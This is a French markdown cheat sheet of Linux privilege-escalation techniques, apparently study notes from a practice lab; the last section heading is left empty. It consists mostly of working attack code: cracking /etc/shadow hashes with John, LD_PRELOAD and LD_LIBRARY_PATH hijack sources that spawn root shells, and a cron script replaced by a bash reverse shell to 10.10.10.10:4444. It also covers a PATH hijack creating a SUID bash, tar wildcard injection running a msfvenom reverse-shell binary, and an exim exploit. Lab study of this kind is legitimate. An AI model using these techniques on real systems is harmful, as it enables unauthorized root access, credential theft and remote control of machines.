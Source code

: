 # Linux : Escalation de privilége



## /etc/shadow

*  Afficher le dossier de stockage des mots de passe, des utilisateurs locaux sous forme de Hash.


```
$> cat /etc/shadow

```

**[root] permission required**



![This is an alt text.](/image/sample.png "This is a sample image.")



Hash sha512crypt du root récupéré des premier au deuxieme deux point (:)

>$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0

* Utilisation de John pour casser le hash.
```
$> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

>output > password123

#
## /etc/passwd
* Afficher le dossier qui contient les info user, lisible par tous.

```
$> cat /etc/passwd
```

# 
## GTFobins

* [GTFobins](https://gtfobins.github.io) documente les moyens d'utiliser des commandes système légitimes pour contourner les protections de sécurité sur Unix et Linux.

#
## Sudo-Variables d'environnement

* On peut configuré sudo pour hériter de certaines variables d'environnement de l'env user. Verifier qu'elles
variables d'environnement son hértiées (regarde les opt env_keep)

```
$> sudo -l
```
**LD_PRELOAD** & **LD_LIBRARY_PATH** sont hérités de l'env user.
>**LD_PRELOAD** -> charge un objet partagé avant tout les programme executé.

>**LD_LIBRARY_PATH** -> fournit une liste de répertoirs dans lesquels les bibiliothéques
 partagées sont recherchées en premier.
 
* Créez un objet partagé a l'aide du code situé dans /home/user/tools/sudo/preload.c 

```
$> gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

*preload.c*
```
void _init()
{
    unsetenv("LD_PRELOAD"):
    setresuid(0, 0, 0);
    system("/bin/bash -p");
}
```

* Exécuter l'un des programmes que l'ont est autorisé a exec via sudo (liste des prog avec sudo -l)

```
$> sudo LD_PRELOAD=/tmp/preload.so prog_name
```
```
root@debian:/home/user $> EZ un shell root
```

 > ==================Autre méthode===================
 
 * Utilisation de **Ldd** sur *apache2* pour voir qu'elle bibliothèques partagées il utilise.

```
$> ldd /usr/sbin/apache2
```

* Créez un objet partagé avec le meme nom que l'un des bibliothèques répertoriées (libcrypt.so.1) en utilisant le code situé dans /home/user/tools/sudo/library_path.c

```
$> gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

*library_path.c*
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack()
{
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}

```

* Exécuter Apache2 en utilisant sudo, tout en définissant les variable d'environnement LD_LIBRARY_PATH sur /tmp (où l'ont génére l'objet partagé compilé)

```
$> sudo LD_LIBRARY_PATH=/tmp apache2
```
```
root@debian:/home/user $> EZ un shell root
```

#
## Cron - Autorisation de fichiers

* Affichez le contenu de la crontab a léchelle du système.
```
$> cat /etc/crontab
```
> On remarque que l'une des tache execute *overwrite.sh* et l'autre *compress.sh*

* Essayon de localiser overwrite.sh
```
$> locate overwrite.sh
```
* Maintenant qu'on a le chemin voyont les droit du fichier
```
$> ls -l /usr/local/bin/overwrite.sh
```
> On voie qu'on a les droits d'écriture

* On vas remplacez le contenue d'overwrite.sh par se qui suit et en remplacant l'ip par celle de notre box attaqué

*overwrite.sh*
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1 
```

* Ensuite on ouvre un listener avec netcat du le port 4444 et on attend que la tache cron s'exécute

```
$> nc -nvlp 4444
```

```
root@debian:/home/user $> EZ un shell root
```
#
## Cron - Variable d'environnement PATH

* Affichez le contenu de la crontab a léchelle du système.
```
$> cat /etc/crontab
```
> On voie que la variable PATH commence par /home/user

* On créez un fichier appelé **overwrite.sh** dans le répartoir */home/user*

*overwrite.sh*
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash 
```

* On oublie pas de mettre les droit au fichier

```
$> chmod x+ /home/user/overwrite.sh
```

* Attendre a peut prés 1min puis exécuter la commande suivante pour obtenir un shell root

```
$> /tmp/rootbash -p
```
```
rootbash-4.1$> EZ un shell root
```
#
## Cron - Caractères génériques

* Afficher le contenu de l'autre script de tache cron.

```
$> cat /usr/local/bin/compress.sh
```
> La commande tar est exécuter avec l'étoile (*) dans notre répertoir personel /home/user

* Utilisation de msfvenom pour générer un binaire ELF de shell inversé en utilisant l'adresse ip attaquer.

```
$> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```
* Déplacer le binaire sur la sessions ssh
```
$> scp /home/user/shell.elf user@192.168.10.131:/home/user
```
* Crée deux fichier dans /home/user qui lorsque la tache cron s'exécutera seront inclue grace au (*)
```
$> touch /home/user/--checkpoint=1
```
```
$> touch /home/user/--checkpoint-action=exec=shell.elf
```
> Les nom de fichier corresponde a des options de ligne de commande tar valides, il les traitera comme des ptions de ligne

* Ouvrir un listener netcat sur le port 4444

```
$> nc -nvlp 4444
```
```
$> EZ un shell root
```

#
## Exécutables SUID/SGID - Exploit connus

* Chercher les fichier SUID/SGID
```
$> find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
> On voie un résultat qui ressort particulierement /usr/sbin/exim-4.54-3

* On vas cherche un exploit connu pour cet version d'exim sur
[Exploit-DB](https://www.exploit-db.com/), ou google ou GitGub.

* Implémenter et éxecuter le script récuperer.
```
$> /home/user/myscript/exim/cve-2016-1531.sh
```
```
$> EZ un shell root
```
#
## Exécutables SUID-SGID - Variable d'environnement




#
#
#
#
#
#
#
#

